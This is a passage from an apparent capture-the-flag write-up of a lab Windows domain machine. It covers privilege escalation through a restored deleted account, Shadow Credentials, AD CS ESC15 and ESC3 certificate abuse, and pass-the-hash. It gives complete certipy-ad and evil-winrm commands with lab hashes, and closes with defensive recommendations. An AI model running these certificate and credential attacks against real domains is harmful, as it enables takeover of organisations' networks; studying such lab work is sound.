

🏁 **User flag obtained**: `45c9ade57c9794067d5b4b577f355888`

---
## 4. Privilege Escalation

### 4.1 Certipy as `john` and deleted `cert_admin`

Enumerate AD CS:

```bash
certipy-ad find -u john -hashes :ad9324754583e3e42b55aad4d3b8d2bf -target 10.129.62.79
```



The enabled `WebServer` template shows `Enrollee Supplies Subject: True` and enrollment for SID `...-1111`:



That SID belongs to a **deleted** user whose last parent was `OU=ADCS`:

```powershell
Get-ADObject -Filter 'objectsid -eq "S-1-5-21-1392491010-1358638721-2126982587-1111"' -Properties * -IncludeDeletedObjects
Restore-ADObject -Identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
```




Account restored: `cert_admin`. Shadow Credentials recover its hash:

```bash
certipy-ad shadow auto -u john@tombwatcher.htb -hashes :ad9324754583e3e42b55aad4d3b8d2bf -account cert_admin -dc-ip 10.129.62.79
```



NT hash for `cert_admin`: `f87ebf0febd9c4095c68a88928755773`.

### 4.2 ESC15 (CVE-2024-49019) on `WebServer`

Re-run Certipy with `-vulnerable` as `cert_admin`:

```bash
certipy-ad find -u cert_admin -hashes :f87ebf0febd9c4095c68a88928755773 -target 10.129.62.79 -vulnerable
```




`WebServer` is flagged **ESC15** (schema v1 + enrollee supplies subject). BloodHound shows Administrator’s object SID ending in `-500`:



Request a certificate with UPN `administrator@tombwatcher.htb` and Client Authentication application policy (command as run used SID `…-516`):

```bash
certipy-ad req -u cert_admin -hashes :f87ebf0febd9c4095c68a88928755773 -target 10.129.62.79 -ca tombwatcher-CA-1 -template WebServer -upn 'administrator@tombwatcher.htb' -sid 'S-1-5-21-1392491010-1358638721-2126982587-516' -application-policies 'Client Authentication'
```



Authentication fails because the resulting certificate is not valid for client authentication (EKU mismatch):

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.62.79
```



### 4.3 ESC3 via Certificate Request Agent + `User` on-behalf-of

Request an enrollment-agent style certificate by setting application policies to `Certificate Request Agent`, then use the `Machine`/`User` ESC3 path. First obtain the agent PFX:

```bash
certipy-ad req -u cert_admin -hashes :f87ebf0febd9c4095c68a88928755773 -target 10.129.62.79 -ca tombwatcher-CA-1 -template WebServer -application-policies 'Certificate Request Agent'
```



The `Machine` template is noted as an ESC3 target (Client Authentication EKU):



A scheduled task re-deletes `cert_admin`. The first on-behalf-of request fails with `rpc_s_access_denied` until the object is restored again; then request on-behalf-of Administrator using the `User` template and `cert_admin.pfx`:

```bash
evil-winrm -i 10.129.62.79 -u 'john' -H 'ad9324754583e3e42b55aad4d3b8d2bf'
# Restore-ADObject -Identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf

certipy-ad req -u cert_admin -hashes :f87ebf0febd9c4095c68a88928755773 -target 10.129.62.79 -ca tombwatcher-CA-1 -template User -pfx cert_admin.pfx -on-behalf-of 'tombwatcher\administrator'
```



Authenticate and Pass-the-Hash:

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.129.62.79
evil-winrm -i 10.129.62.79 -u 'administrator' -H 'f61db423bebe3328d33af26741afe5fc'
```

```powershell
whoami
type ..\Desktop\root.txt
```



🏁 **Root flag obtained**: `76b1a264509a5bfe1ed86389733840b6`

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. LDAP as `henry` → RustHound/BloodHound attack path to ADCS.
2. Targeted Kerberoast `Alfred` (`basketball`) → join `Infrastructure` → read `ansible_dev$` gMSA.
3. Reset `sam` → GenericAll / Shadow Credentials on `john` → WinRM → user flag.
4. Restore deleted `cert_admin` → Shadow Credentials → ESC15 on `WebServer`.
5. Certificate Request Agent + ESC3 on-behalf-of Administrator → PTH → root flag.

---
## Defensive Recommendations

- Restrict `WriteSPN`, `AddSelf`, `ReadGMSAPassword`, `ForceChangePassword`, and `WriteOwner` / `GenericAll` on user objects; monitor BloodHound-style abuse paths.
- Protect gMSA password-read permissions; avoid granting them to broad custom groups.
- Harden AD CS templates (schema, EKU, enrollment rights); patch ESC15 / CVE-2024-49019 and review enrollment-agent scenarios.
- Audit restore of deleted privileged accounts (`cert_admin`) and unexpected certificate enrollments for Administrator.
